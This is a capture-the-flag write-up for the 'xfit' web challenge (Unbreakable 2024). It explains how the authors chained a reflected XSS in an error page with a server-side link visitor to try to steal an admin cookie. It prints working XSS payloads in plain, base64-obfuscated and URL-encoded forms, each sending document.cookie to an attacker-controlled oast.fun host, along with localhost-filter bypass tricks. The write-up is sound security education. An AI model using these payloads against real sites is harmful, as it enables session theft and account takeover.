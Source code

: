 ```yaml
---
title: xfit
type: writeup
date: 2024-04-07T14:23:28+03:00
description: Writeup for xfit [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## DISCLAIMER

This challenge was not solved during the competition, but we were really close of the solution and spend a lot of time on it. We decided to write a writeup to
describe our approach and the solution we found after the competition.

## Challenge Description

Picture this: within the vast expanse of the digital realm, lies a crucial secret vault—a clandestine cache known as cookies. But beware, for these digital treasures are not scattered haphazardly. No, they are meticulously guarded within the confines of their respective domains, each one a sentinel of its cyber kingdom. It's a thrilling saga of hidden treasures and guarded gateways, where the very essence of your online identity hangs in the balance!


## Intuition

The description mention subdomains and cookies. Combining these two and the name of the challenge,
I assumed I had to steal cookie by using XSS. The website is a static one with only two endpoints:
 - `/contact` which send an email (it seems only the message parameter is required)
 - `/error?err=404` which returns a 404 error page (or 500, 200, ...)

![img.png](/images/unbreakable_2024/contact.png)
![img_1.png](/images/unbreakable_2024/err.png)

Here we can see the request to the `/contact` endpoint.

![img.png](/images/unbreakable_2024/request.png)

## What we tried

First we tried to remove all parameter from the request in order to see the behavior of the website.
We noticed we received some parsing error with a findLinks function. It gave us a hint about a potential SSRF or 
CSRF vulnerability.

![img.png](/images/unbreakable_2024/parse.png)

In order to confirm that wa tried to request a server under our control with this [tool](https://app.interactsh.com/#/).

![img.png](/images/unbreakable_2024/test.png)
![img_1.png](/images/unbreakable_2024/response.png)

As we can see above we got the request which means the server is visiting the link we provided.

Going back to the error page, it seems that the error parameter is vulnerable to XSS as the following picture shows.

![img.png](/images/unbreakable_2024/xss.png)

```js
<img src=x onerror=confirm(1)>
```

Knowing that we can now steal the cookie using the following logic:
 - Send a message to the `/contact` endpoint with the following payload:
```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="document.location='http://xhtfiwjfrxvxawnsmojcux2nwwez03yx3.oast.fun/?c='%2Bdocument.cookie">
```
 - Wait for the server to visit the error page
 - The admin's cookie will be sent to our server
 - Profit

![img.png](/images/unbreakable_2024/trying.png)

Unfortunately we do not receive any cookie it seems the parsing is not working as expected.

![img.png](/images/unbreakable_2024/noCookie.png)

The supposition is that the parsing ignore the first part of the URL (green part below) but 
only understand the second part as URL (blue part below). Therefore, it does not execute any javascript which
means we cannot steal the cookie.

![img.png](/images/unbreakable_2024/fail.png)

To bypass this we decided to base64 encode the second part with this payload:

```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly94aHRmaXdqZnJ4dnhhd25zbW9qY3V4Mm53d2V6MDN5eDMub2FzdC5mdW4vP2M9Jytkb2N1bWVudC5jb29raWU='))">
```

Unfortunately, this time, we did not receive any request on our server, so we assumed the parsing had some anti-SSRF
protection by blacklisting the localhost / 127.0.0.1 IP.

We started a lot of bypass techniques such as `http://0177.0.0.01`, `http://0x7f.0x0.0x0.0x1` and many more without success.

## Solution

We were pretty close of the actual solution but we were wrong by thinking that the parsing functions blacklisted the localhost IP.
We missed something when trying URL encoding and then base64 encoding. The correct payload was actually an URL encoded one but
apparently we did it wrong.

```js
http://localhost/error.html?err=%3Cimg%20src%3Dx%20onerror%3Ddocument%2Elocation%3D%22http%3A%2F%2Fzyeapckdjkrwivdzxeeabjaadiyukbx8f%2Eoast%2Efun%2F%3Fc%3D%22%2Bdocument%2Ecookie%3E
```

In conclusion the challenge trolled us because when we tried the correct payload with URL encoding only but,
the server either did not execute the javascript (document.cookie) or the server just crashed except 
one time for random and mysterious reason where we got the flag (after the CTF ended).

![img.png](/images/unbreakable_2024/fuck.png)


